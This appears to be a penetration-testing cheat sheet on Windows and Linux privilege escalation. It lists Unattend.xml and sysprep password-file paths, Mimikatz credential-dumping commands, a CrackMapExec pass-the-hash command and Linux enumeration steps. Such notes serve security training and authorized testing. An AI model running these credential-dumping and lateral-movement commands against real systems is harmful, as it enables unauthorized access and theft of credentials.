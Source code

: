 #### Password in Configuration File
- Unattend.xml locations:
    ```sh
    C:\unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.xml
    C:\Windows\system32\sysprep\sysprep.xml
    ```

#### Credential Dumping
- Mimikatz/Kiwi:
    ```sh
    privilege::debug
    lsa_dump_sam
    sekurlsa::logonpasswords
    ```

#### Pass the Hash
- CrackMapExec:
    ```sh
    crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"
    ```

### Linux Privilege Escalation

#### Vulnerable Programs
- Search for vulnerable versions (e.g., chkrootkit v0.49)

#### Weak Permissions
- World-writable files:
    ```sh
    find / -not -type l -perm -o+w
    ```

#### Sudo
- Check sudo privileges:
    ```sh
    sudo -l
    ```

#### SUID - Custom Binary
- Look for shared libraries or binaries being loaded/executed at runtime:
    ```sh
    strings binary_name
    ```

#### Other Techniques
- Check for capabilities, history files, docker group, cron jobs, SSH keys, PATH, NFS, writable /etc/shadow or /etc/passwd
